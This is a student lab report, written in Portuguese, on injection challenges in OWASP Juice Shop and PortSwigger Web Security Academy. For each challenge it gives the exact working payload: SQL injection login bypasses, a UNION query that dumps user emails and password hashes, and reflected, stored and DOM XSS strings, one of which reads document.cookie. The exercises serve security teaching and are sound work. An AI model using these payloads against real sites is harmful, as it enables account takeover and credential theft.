# I2-06 — Vulnerabilidades do tipo Injection

**Aluno:** João Gabriel G. Oliveira
**Disciplina:** Segurança e Teste de Software — IDP · **Prof.:** Fabricio Santana

## Parte A — OWASP Juice Shop

### A1 — Finding the Score Board
O placar de desafios fica escondido (não tem link no menu). A rota está escrita no JavaScript do próprio site, então acessei ela direto pela URL.

**URL:**
```
http://localhost:3000/#/score-board
```


### A2 — SQL Injection — Login como Admin
Coloquei o payload no campo de email e uma senha qualquer. O `OR 1=1` deixa a condição sempre verdadeira e o `--` corta a checagem de senha, então entrei como admin.

**Campo Email:**
```
' OR 1=1--
```


### A3 — SQL Injection — User Credentials
A busca monta a query juntando o que eu digito. Fechei os parênteses e emendei um `UNION SELECT` na tabela de usuários (10 colunas, porque a tabela Products tem 10). Vieram email e hash de senha de 24 usuários.

**Busca:**
```
')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9', '10' FROM Users--
```


### A4 — XSS — Bonus Payload
A busca joga o texto na tela como HTML, sem filtrar. Colei o iframe de áudio exigido pelo desafio e ele começou a tocar — prova que dá pra injetar HTML.

**Busca:**
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```


### A5 — XSS — DOM XSS
No mesmo campo de busca, um iframe com `javascript:` roda script e abre a caixa de alerta.

**Busca:**
```
<iframe src="javascript:alert(`xss`)">
```


### A6 — XSS — Reflected XSS
A página de rastreio joga o parâmetro `id` da URL direto na tela. Troquei o `id` pelo iframe e o script rodou. A diferença pro anterior é que aqui a entrada vem da URL (refletida).

**URL:**
```
http://localhost:3000/#/track-result?id=<iframe src="javascript:alert(`xss`)">
```


## Parte B — PortSwigger (Burp Suite)

### B1 — SQLi na cláusula WHERE (dados ocultos)
Botei `' OR 1=1--` no parâmetro `category` da URL. Fica sempre verdadeiro e corta o filtro de "produto lançado", então apareceram os produtos ocultos.

**Parâmetro category:**
```
Gifts' OR 1=1--
```


### B2 — SQLi login bypass
No login, usei `administrator'--` no usuário. O `--` comenta a checagem de senha e entrei como administrator.

**Campo Username:**
```
administrator'--
```


### B3 — Reflected XSS (nada codificado)
A busca devolve o texto cru no HTML, então um `<script>` executa direto.

**Busca:**
```
<script>alert(1)</script>
```


### B4 — Stored XSS (nada codificado)
Postei um comentário com `<script>`. Ele fica salvo e dispara pra qualquer um que abrir o post.

**Campo Comment:**
```
<script>alert(1)</script>
```


### B5 — DOM XSS — document.write
O texto cai dentro do `src` de uma `` via document.write. Fechei o atributo com `">` e injetei um `<svg onload>`.

**Busca:**
```
"><svg onload=alert(1)>
```


### B6 — DOM XSS — innerHTML
Aqui o sink é `innerHTML`, onde `<script>` não roda. Usei uma `` com `onerror` — ela falha ao carregar e dispara o script.

**Busca:**
```

```


### B7 — DOM XSS — jQuery href
O link "Back" é montado por jQuery a partir do `returnPath`. Pus `javascript:` nesse parâmetro e cliquei no link.

**Parâmetro returnPath:**
```
javascript:alert(document.cookie)
```


### B8 — DOM XSS — jQuery selector (hashchange)
Pelo exploit server entreguei um iframe que mexe no `#` do lab; o jQuery usa o hash como seletor e executa o `print()`. Método certo, mas não consegui capturar o print dentro do prazo.

**Body do exploit server:**
```
<iframe src="https://LAB-ID.web-security-academy.net/#" onload="this.src+=''"></iframe>
```
_Print pendente (método validado acima)._

### B9 — Reflected XSS em atributo (< > codificados)
O texto cai dentro de um atributo e os `<` `>` são bloqueados. Saí do atributo com `"` e injetei `autofocus` + `onfocus` pra disparar ao carregar.

**Busca:**
```
" autofocus onfocus="alert(1)
```


### B10 — Stored XSS em href (aspas codificadas)
O campo "Website" do comentário vira um link. Não dá pra sair do atributo, então o próprio valor é `javascript:alert(1)`. A validação de URL do navegador eu tirei pelo console — ela só existe no front, não protege nada.

**Campo Website:**
```
javascript:alert(1)
```


### B11 — Reflected XSS em string JS (< > codificados)
O texto cai dentro de uma string JavaScript. Fechei a string com `'`, chamei o alert e reabri a string pra não quebrar o código.

**Busca:**
```
'-alert(1)-'
```

